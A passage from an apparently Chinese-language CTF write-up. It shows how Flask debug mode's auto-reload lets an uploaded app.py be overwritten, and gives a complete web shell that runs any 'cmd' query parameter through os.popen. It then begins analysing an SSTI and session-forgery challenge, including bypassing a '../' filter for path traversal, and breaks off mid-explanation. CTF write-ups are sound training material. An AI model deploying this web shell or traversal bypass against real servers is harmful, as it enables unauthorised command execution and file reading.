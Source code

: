 访问admin manage发现要输入pin码，说明flask开启了debug模式。flask开启了debug模式下，app.py源文件被修改后会立刻加载。所以只需要上传一个能rce的app.py文件把原来的覆盖，就可以了。
 (注：语法不能出错)

```python
#app.py
from flask import Flask,request
import os
app = Flask(__name__)
@app.route('/')
def index():    
    try:        
        cmd = request.args.get('cmd')        
        data = os.popen(cmd).read()        
        return data    
    except:        
        pass    
        
    return "1"#回显一个1,方便查看是否上传更新成功
if __name__=='__main__':    
    app.run(host='0.0.0.0',port=5000,debug=True)
```

上传成功后，直接在跟路由命令执行
 ![在这里插入图片描述](assets/4a5faac0717044dc80f0c75772d54081.png)

### InjectMe（复杂SSTI）

> 考点：session伪造，ssti

下载附件，发现是泄露了目录`./app`
 ![在这里插入图片描述](assets/7f357db7075a437eab320fa25d5ab0df.png)打开题目，给了download的部分源码
 ![在这里插入图片描述](../../CTF_%25E7%25AC%2594%25E8%25AE%25B0%25E8%25AE%25B0%25E5%25BE%2597%25E8%25BD%25AC%25E7%25A7%25BB/web/%25E9%25A2%2598%25E7%259B%25AEwp+%25E6%2598%25A5%25E7%25A7%258B%25E4%25BA%2591%25E5%25A2%2583%25E6%25B8%2597%25E9%2580%258Fwp/assets/c7062a748c21439bb61807eec84e50ec.png)分析一下，`./download`路由下，接受GET参数file，如果没有则filename为空值，然后是过滤了`../`，由于这里是替换为空，可以绕过。然后拼接路径，如果存在则返回
